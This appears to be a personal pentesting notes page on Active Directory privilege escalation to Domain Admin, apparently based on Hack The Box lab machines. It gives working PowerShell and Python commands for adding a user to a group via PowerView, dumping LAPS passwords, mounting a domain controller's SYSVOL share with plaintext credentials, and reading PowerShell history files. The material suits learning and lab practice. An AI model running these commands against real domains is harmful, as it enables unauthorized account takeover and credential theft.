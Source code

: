 ```yaml
---
description: >-
  Active Directory Privilege Escalation Techniques (Domain Admin)
title: Domain Admin Techniques              # Add title here
date: 2023-01-02 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Privilege Escalation - Domain Admin Techniques]                     # Change Templates to Writeup
tags: [active directory, windows privesc, readlaps, sysvol share, powershell history]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Assign user to a group

This is a repository of techniques to get Domain Admin via multiple techniques.
```powershell
Import-Module ./PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\\JDgodd"

Add-DomainGroupMember -Identity 'Core Staff' -Members 'streamio\\JDgodd' -Credential $Cred

net group 'Core Staff'
```
Examples:
[[StreamIO#dc6ecc]]

### ReadLAPSPassword

We can use the utility laps.py to read LAPS passwords:
```bash
python3 laps.py -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 07-07-2022 13:57:05
DC &V@%DQ-wEwQ97A
```
[[StreamIO#^2cc182]]

### SYSVOL Share DC

We can enumerate SMB Shares within the machine: ^cae2ef
```bash
PS C:\Users\BTables\Desktop> Get-SMBShare

Name   ScopeName Path Description  
----   --------- ---- -----------  
ADMIN$ *              Remote Admin 
C$     *              Default share
IPC$   *              Remote IPC 
```
We can try to connect to the shares on the DC:
```bash
PS C:\Users\BTables\Desktop> net use \\dc.fulcrum.local\IPC$ /user:FULCRUM\BTables ++FileServerLogon12345++
The command completed successfully.
```
And then we can list the shares in the DC:
```bash
PS C:\Users\BTables\Desktop> net view \\dc.fulcrum.local\
Shared resources at \\dc.fulcrum.local\
Share name  Type  Used as  Comment              
-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share   
SYSVOL      Disk           Logon server share   
The command completed successfully.
```
We can then mount the share SYSVOL on the compromised machine to check its content:
```bash
PS C:\Users\BTables\Desktop> net use x: \\dc.fulcrum.local\SYSVOL /user:FULCRUM\BTables ++FileServerLogon12345++

The command completed successfully.
```
And we found a ton of scripts inside the Share:
```bash
PS X:\fulcrum.local\scripts> dir
    Directory: X:\fulcrum.local\scripts

Mode                LastWriteTime         Length Name
----                -------------         ----- -----                                                                                                                      
-a----        2/12/2022  10:34 PM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1
-a----        2/12/2022  10:34 PM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
```

### Powershell History

We can retrieve commands executed on another machine by checking the ConsoleHost_history.txt which is the same as in Linux .bash_history file.
#Note If using this command we need to be on the User's folder since this file is located in the AppData folder:
```bash
PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Examples:
[[Timelapse#^3ceb21]]